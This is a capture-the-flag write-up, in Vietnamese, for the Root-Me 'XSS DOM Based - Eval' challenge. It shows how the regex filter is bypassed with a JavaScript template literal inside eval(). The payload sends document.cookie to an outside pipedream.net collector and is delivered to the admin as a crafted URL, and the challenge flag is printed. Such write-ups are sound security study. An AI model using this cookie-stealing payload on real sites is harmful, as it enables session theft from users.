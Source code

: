 # WRITE UP

## **Challenge:** [**XSS DOM Based - Eval**](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Eval)

Bài này cần ta thực hiện chèn XSS vào một input tính toán và bị filter bởi regex: **/^\d+\[\\+|\\-|\\\*|\\/\]\d+/**

<img src="./media/image1.png" style="width:6.5in;height:3.36944in" alt="Graphical user interface, text, application, email Description automatically generated" />

Tuy vậy, sau khi fuzz thì thấy **eval()** cho phép thực thi phép toán **1+1asd:**

<img src="./media/image2.png" style="width:6.5in;height:2.69236in" alt="Graphical user interface, text Description automatically generated" />

Như vậy, hướng đi của ta là chèn vào ở đây. Ta có script của server:

*&lt;script&gt;*

*var result = eval(1+1asd);*

*document.getElementById('state').innerText = '1+1asd = ' + result;*

*&lt;/script&gt;*

Mọi thứ đều bị filter khi cố chèn script vào đây. Đến đây, sau khi mò về Javascript thì mọi thứ có thể giải quyết với template literals ([Template literals (Template strings) - JavaScript | MDN (mozilla.org)](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals)). Template literals cho phép ta thực thi một command dưới dạng ưu tiên trước khi bị block (nếu có):

Thử chèn payload: **1+1\`${alert\`\`}\`**

<img src="./media/image3.png" style="width:6.5in;height:1.01389in" alt="A screenshot of a computer Description automatically generated" />

Và như vậy, ta có thể đính kèm DOM Based vào đây:

Payload: **1+1\`${document.location="https://eol9dtzbk9673pb.m.pipedream.net?c="+document.cookie}\`**

Sau 10 giây, ta nhận được HTTP request. Giờ thì chuyển qua tab Contact và send cho admin. Ta có payload như sau: [*http://challenge01.root-me.org/web-client/ch34/index.php?calculation=1%2B1\`${document.location=%22https://eol9dtzbk9673pb.m.pipedream.net?c=%22%2Bdocument.cookie}\`*](http://challenge01.root-me.org/web-client/ch34/index.php?calculation=1%2B1%60$%7bdocument.location=%22https://eol9dtzbk9673pb.m.pipedream.net?c=%22%2Bdocument.cookie%7d%60)

<img src="./media/image4.png" style="width:6.5in;height:2.39167in" alt="Graphical user interface, text, application Description automatically generated" />

HTTP Request nhận được sau một khoảng thời gian:

<img src="./media/image5.png" style="width:6.5in;height:2.35in" alt="Graphical user interface, text, application, email Description automatically generated" />

Done:

<img src="./media/image6.png" style="width:6.5in;height:3.85139in" alt="Graphical user interface, application Description automatically generated" />

**Flag:** rootme{Eval\_Is\_DangER0us}
